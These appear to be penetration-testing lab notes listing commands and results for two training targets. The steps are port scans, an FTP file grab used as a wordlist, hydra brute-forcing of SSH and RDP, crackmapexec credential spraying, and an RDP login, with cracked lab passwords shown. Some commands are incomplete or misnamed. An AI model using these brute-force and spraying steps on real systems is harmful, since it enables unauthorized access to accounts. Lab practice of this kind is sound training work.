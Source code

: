 
*Command:*
nmap -p-
**rustscan -a 10.129.38.94 -r 1-65535**

*Result:*

|     PORT      |  STATE   |   SERVICE   |
| :-----------: | :------: | :---------: |
|    22/tcp     |   open   |     ssh     |
|    53/tcp     |   open   |   domain    |
|    110/tcp    |   open   |    pop3     |
|    995/tcp    |   open   |    pop3s    |
|   2121/tcp    |   open   | ccproxy-ftp |
| **30021/tcp** | **open** | **unknown** |

---

*Command:* ftp $TARGET 30021

*Result:* get simon/mynotes.txt => wordlist, maybe passwords

---

*Command:* 
hydra -l simon -P mynotes.txt 10.129.38.94 ssh -v -I
   
*Result*: simon:8Ns8j1b!23hs4921smHzwn

### Assessment 3
*Command:* rustscan -a 10.129.203.10 -r 1-65535

*Result:* 135,445

---

*Command:* smb -L //TARGET/home

*Result:*  simon:random.txt

---

*Command:* crackmapexec smb 10.129.203.10 -u assusers.txt -p asspass.txt

*Result:* fiona:48Ns72!bns74@S84NNNSl

---

*Command:* hydra -L assuser.txt -P asspass.txt 10.129.203.10 rdp -v -I

*Result:* login: fiona   password: 48Ns72!bns74@S84NNNSl

---

*Command:* rdesktop 10.129.203.10 -u fiona -p '48Ns72!bns74@S84NNNSl'
